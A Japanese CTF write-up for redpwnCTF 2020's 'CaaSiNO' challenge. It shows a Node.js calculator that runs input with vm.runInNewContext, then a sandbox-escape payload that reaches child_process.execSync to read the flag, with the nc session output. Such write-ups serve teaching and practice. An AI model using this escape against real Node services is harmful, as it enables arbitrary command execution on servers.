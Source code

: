 # CaaSiNO

> Who needs regex for sanitization when we have VMs?!?!
> The flag is at /ctf/flag.txt

calculator.jsというファイルが添付されていた。

## solution

添付されているcalculator.jsは以下の通り
```javascript
const vm = require('vm')
const readline = require('readline')

const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
})

process.stdout.write('Welcome to my Calculator-as-a-Service (CaaS)!\n')
process.stdout.write('This calculator lets you use the full power of Javascript for\n')
process.stdout.write('your computations! Try `Math.log(Math.expm1(5) + 1)`\n')
process.stdout.write('Type q to exit.\n')
rl.prompt()
rl.addListener('line', (input) => {
  if (input === 'q') {
    process.exit(0)
  } else {
    try {
      const result = vm.runInNewContext(input)
      process.stdout.write(result + '\n')
    } catch {
      process.stdout.write('An error occurred.\n')
    }
    rl.prompt()
  }
})
```

runInNewContextの結果を表示している。

`runInNewContext vuln`みたいな感じて調べると[それっぽいページ](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html)が出てきたので、そこを参考にした。

```
const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt')
```
を入力するとフラグを手に入れることができた

```
$ nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
> const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt')
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

